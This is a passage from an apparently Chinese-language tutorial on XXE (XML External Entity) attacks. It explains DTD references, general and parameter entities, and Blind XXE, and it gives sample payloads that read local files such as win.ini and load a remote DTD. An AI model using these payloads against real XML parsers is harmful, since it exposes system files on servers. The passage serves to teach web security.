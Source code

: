 这样对引用资源所做的任何更改都会在文档中自动更新,非常方便（**方便永远是安全的敌人**）

当然，还有一种引用方式是使用 引用**公用 DTD** 的方法，语法如下：

```
<!DOCTYPE 根元素名称 PUBLIC “DTD标识名" “公用DTD的URI"> 
```

这个在我们的攻击中也可以起到和 SYSTEM 一样的作用

**重点二：**

我们上面已经将实体分成了两个派别（内部实体和外部外部），但是实际上从另一个角度看，实体也可以分成两个派别（通用实体和参数实体），别晕。。

**1.通用实体**

用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用

**示例代码：**

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
<updateProfile>  
    <firstname>Joe</firstname>  
    <lastname>&file;</lastname>  
    ... 
</updateProfile>
```

**2.参数实体：**

(1)使用 % 实体名(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用** **%实体名;** **引用**
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用

**示例代码：**

```xml
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```

**抛转：**

参数实体在我们 Blind XXE 中起到了至关重要的作用

## **四、我们能做什么**

上一节疯狂暗示了 **外部实体** ，那他究竟能干什么？

实际上，当你看到下面这段代码的时候，有一点安全意识的小伙伴应该隐隐约约能觉察出什么

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/test.dtd" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```
